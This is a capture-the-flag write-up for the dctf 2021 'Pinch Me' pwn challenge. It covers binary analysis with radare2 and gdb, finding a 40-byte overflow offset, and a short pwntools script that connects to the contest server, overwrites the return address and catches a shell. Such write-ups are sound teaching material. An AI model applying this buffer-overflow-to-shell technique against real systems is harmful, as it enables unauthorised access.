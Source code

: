 ```yaml
---
title: Pinch Me
date: 2020-05-16
excerpt: "'Pinch Me' was a challenge in the Pwn category of dctf 2021"
classes: wide
categories: dctf2021
tags:
  - dctf2021
  - pwn
  - bof
  - pwntools
  - gdb
  - radare2
---
```


![img](/assets/images/ctf/dctf2021-pinchme/0.png)

Taking a look at the file we can see that it's a **64-bit Elf** binary

```
pwnchal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
```

Nothing really stands out when analyzing with **radare2**. No win function this time, so let's take a look at the **vuln** function


![img](/assets/images/ctf/dctf2021-pinchme/1.png)

Looks like there's an address that gives us a shell. Let's skip all the checks and just jump straight to that. 

Loading the binary into **gdb** (using gef support), we can start poking at it and try to find the offset

I was having issues with `pattern create/search` so I did it the old fashioned way: sending lots of 'A's and 'B's until something looked neat

Using **gdb with gef** you can use `pi print('A'*100)` to quickly toss a string of characters together

After sending different lengths, I found that **40** was when we started seeing the 'B' characters leak in

`pi print('A'*40 + 'B')`


![img](/assets/images/ctf/dctf2021-pinchme/2.png)

Things we know

1. It's a **64-bit ELF** binary
2. The address we want to jump to is 0x004011a1
3. The offset is 40

Here's my script using **pwntools**

```
from pwn import *

p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

offset = b'A'* 40
p.recvuntil('dreaming?\n')
p.sendline(offset + p64(0x004011a1))
p.interactive()
```

The `p64(0x004011a1)` function call packs the address in **Little Endian** format, required to be passed, and `p.interactive()` just catches the shell and allows us to send input.


![img](/assets/images/ctf/dctf2021-pinchme/3.png)
